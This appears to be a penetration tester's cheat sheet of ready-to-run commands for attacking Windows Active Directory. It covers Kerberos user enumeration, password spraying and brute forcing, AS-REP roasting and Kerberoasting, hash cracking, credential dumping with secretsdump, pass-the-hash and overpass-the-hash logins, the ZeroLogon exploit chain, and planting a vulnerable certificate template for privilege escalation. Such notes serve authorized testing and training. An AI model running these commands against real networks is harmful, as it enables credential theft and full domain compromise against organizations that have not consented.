KERBRUTE:
---
#kerbrute #ad #enum #passwordspray #userenum #kerberos 

Install/Build latest kerbrute:
```bash
go install github.com/ropnop/kerbrute@latest
#or the good old-fashioned
git clone https://github.com/ropnop/kerbrute
cd kerbrute
go build
```

Sync time to DC, otherwise password spray / enum / brute force may fail!

```shell
sudo ntpdate -s $TARGET_IP
```

then

```bash
kerbrute userenum --dc $TARGET_IP -d $TARGET_AD users -t 100 -v
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD -t 100 -v users $PASSWORD 
kerbrute bruteuser --dc $TARGET_IP -d $TARGET_AD -t 100 -v passwords $USER
kerbrute passwordspray --dc $TARGET_IP -d $TARGET_AD users -t 100 -v --user-as-pass
```

Dev version of kerbrute auto-checks for AS-REP roastable accounts
```bash
kerbrute userenum --dc $TARGET_IP --domain $TARGET_AD --hash-file hashes --downgrade users
```

LDAP
----
```bash
nmap -n -sV --script "ldap* and not brute" $TARGET_IP
```

```bash
ldapsearch -H ldap://$TARGET_IP -x -s base namingcontexts
```

```bash
ldapsearch -x -H ldap://$TARGET_IP -b 'DC=$DOMAIN,DC=$DOMEXT' | grep -B2 Person | grep "@" | awk '{print $2}'
```

```bash
ldapsearch -H ldap://$TARGET_IP -x -b "DC=$DOMAIN,DC=local" '(objectClass=person)'
```

AS-REP Roasting
---
#as-rep-roasting #kerberos #asrep-roasting

No password ticket query against a user list, not requiring Kerberos pre-authentication,
AKA. 
AS-REP Roasting or ASREP Roasting

```shell
impacket-GetNPUsers -no-pass -usersfile users -dc-ip $TARGET_IP $TARGET_DOMAIN/ -format hashcat
```

Against single user:

```shell
impacket-GetNPUsers $TARGET_DOMAIN/$TARGET_USER -no-pass
```

Or if you got a shell on machine:

```powershell
Rubeus.exe asreproast /format:hashcat /outfile:C:hashes.txt
```

And then brute force:
#ntlm #bruteforce 

```shell
hashcat -m 18200 hashes $ROCKYOU
#Print pass
hashcat -m 18200 hashes $ROCKYOU --show | awk -F':' '{print $3}'
```

Dump hashes using account credentials:
#dump #creds

```shell
impacket-secretsdump -dc-ip $TARGET_IP $USER:$PASSWORD@$TARGET_DOMAIN
#OR try
impacket-secretsdump $USER:$PASSWORD@$TARGET_IP
```

Connect to Windows Machine using obtained hash (pass the hash):
#winrm #evil-win-rm #evilwinrm #pth #pass-the-hash

```shell
#remove aad3b435b51404eeaad3b435b51404ee: from hash
evil-winrm -i $TARGET_IP -u $USER -H $TARGET_HASH
```
---

Pre-compiled Windows binaries (Rubeus, Certify …):
---
#ghostpack #rubeus #certify #precompiled

[https://github.com/GhostPack](https://github.com/GhostPack)

---
Kerberoasting:
---
#kerberos #kerberoasting #ad #active-directory #windows 

Check if vulnerable accounts are present:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_DOMAIN/$USERNAME
```

Send request to TGS and extract the hash:

```shell
impacket-GetUserSPNs -dc-ip $TARGET_IP $TARGET_DOMAIN/$USERNAME -request
```


ZeroLogon (CVE-2020-1472)
---
```bash
git clone https://github.com/dirkjanm/CVE-2020-1472
python3.11 cve-2020-1472-exploit.py $NB_NAME $TARGET_IP
impacket-secretsdump -no-pass -just-dc $NB_NAME\$@$TARGET_IP\
evil-winrm -u administrator -i $TARGET_IP -H $HASH
```
Overpass the hash attack
---
(when NTLM protocol is disabled):
---
#overpass-the-hash

```shell
impacket-getTGT $TARGET_DOMAIN/$USER -hashes :$HASH
export KRB5CCNAME=$(pwd)/$USER.ccache
impacket-psexec $TARGET_DOMAIN/$USER@$MACHINE_NAME.$TARGET_DOMAIN -k -no-pass
```

PKI Admin access
---
#pki #pki-admin #ad-template #vulnerable-template

PKI Admin can be abuse to create a vulnerable cert template which can then be exploited with Certipy (or certify and rubeus):

Download template creator module:

```
wget https://raw.githubusercontent.com/GoateePFE/ADCSTemplate/master/ADCSTemplate.psm1
# upload psm1 file to target
```

Use the module to create a vulnerable template:

```powershell
Import-Module .\ADCSTemplate
Export-ADCSTemplate -DisplayName Administrator > .\admin.json
download admin.json
```

then edit the following JSON properties:
```JSON
"msPKI-Certificate-Name-Flag":  1,
"msPKI-Enrollment-Flag":  0,
```
and make sure to have:
```json
"pKIExtendedKeyUsage":"1.3.6.1.5.5.7.3.2"
```
then
```powershell
New-ADCSTemplate -DisplayName Administrator2 -JSON (Get-Content .\admin.json -Raw) -Publish -Identity "$AD_DOMAIN(1st part no ".")\$USERNAME"
Set-ADCSTemplateACL -DisplayName Administrator2 -Type Allow -Identity '$AD_DOMAIN(1st part no ".")\$USERNAME' -Enroll

```
Scan with certipy 4.4+ for vulnerable templates
notes are in "Certificate Abuse" #Certificate-Abuse
List Active Directory AD Users:
---
#enumerate #ad #users

```shell
crackmapexec smb $TARGET_IP -u $USER -p $PASS --users
```

Password spraying with CME

```shell
crackmapexec smb $DOMAIN -u users  -p $PASS --continue-on-success
```

Start collecting data for BloodHound:
---
#sharphound #bloodhound #ad

```powershell
powershell -ep bypass
. .\SharpHound.ps1
```

